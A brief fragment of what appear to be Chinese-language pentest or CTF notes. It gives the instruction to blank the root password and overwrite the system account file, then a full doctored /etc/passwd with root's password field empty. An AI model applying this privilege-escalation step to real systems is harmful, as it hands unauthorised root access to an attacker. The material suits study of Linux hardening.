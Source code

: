 <img src=".\图片\Snipaste_2022-12-02_13-27-08.png" alt="Snipaste_2022-12-02_13-27-08" style="zoom:80%;" />

把root密码置空，然后覆盖

```
root::0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/spool/mail:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
games:x:12:100:games:/usr/games:/sbin/nologin
ftp:x:14:50:FTP User:/var/ftp:/sbin/nologin
nobody:x:65534:65534:Kernel Overflow User:/:/sbin/nologin
dbus:x:81:81:System message bus:/:/sbin/nologin
systemd-coredump:x:999:997:systemd Core Dumper:/:/sbin/nologin
systemd-resolve:x:193:193:systemd Resolver:/:/sbin/nologin
tss:x:59:59:Account used by the trousers package to sandbox the tcsd daemon:/dev/null:/sbin/nologin
polkitd:x:998:996:User for polkitd:/:/sbin/nologin
libstoragemgmt:x:997:995:daemon account for libstoragemgmt:/var/run/lsm:/sbin/nologin
cockpit-ws:x:996:992:User for cockpit web service:/nonexisting:/sbin/nologin
cockpit-wsinstance:x:995:991:User for cockpit-ws instances:/nonexisting:/sbin/nologin
sssd:x:994:990:User for sssd:/:/sbin/nologin
chrony:x:993:989::/var/lib/chrony:/sbin/nologin
sshd:x:74:74:Privilege-separated SSH:/var/empty/sshd:/sbin/nologin
rngd:x:992:988:Random Number Generator Daemon:/var/lib/rngd:/sbin/nologin
rocky:x:1000:1000::/home/rocky:/bin/bash
nginx:x:991:987:Nginx web server:/var/lib/nginx:/sbin/nologin
apache:x:48:48:Apache:/usr/share/httpd:/sbin/nologin
mysql:x:27:27:MySQL Server:/var/lib/mysql:/sbin/nologin
```